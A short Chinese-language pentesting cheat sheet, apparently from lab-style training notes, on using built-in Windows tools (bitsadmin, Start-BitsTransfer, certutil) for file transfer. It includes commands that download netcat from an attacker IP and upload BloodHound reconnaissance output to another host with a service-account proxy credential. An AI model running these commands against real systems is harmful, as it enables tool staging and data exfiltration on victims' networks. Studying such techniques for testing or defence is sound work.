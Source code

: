 ## 七、依赖本地

> [Windows 二进制文件的 LOLBAS 项目](https://lolbas-project.github.io/) [适用于 Linux 二进制文件的 GTFOBins](https://gtfobins.github.io/)

### 1. Bitsadmin 下载功能

> 后台智能传输服务 (BITS)可用于从 HTTP 站点和 SMB 共享下载文件。它“智能地”检查主机和网络利用率，以尽量减少对用户前台工作的影响。

```shell
# 使用 Bitsadmin 下载文件
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe

# 下载
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
# 上传
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### 2. Certutil

> Certutil 可用于下载任意文件。它适用于所有 Windows 版本，并且一直是一种流行的文件传输技术

```shell
# 使用 Certutil 下载文件
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
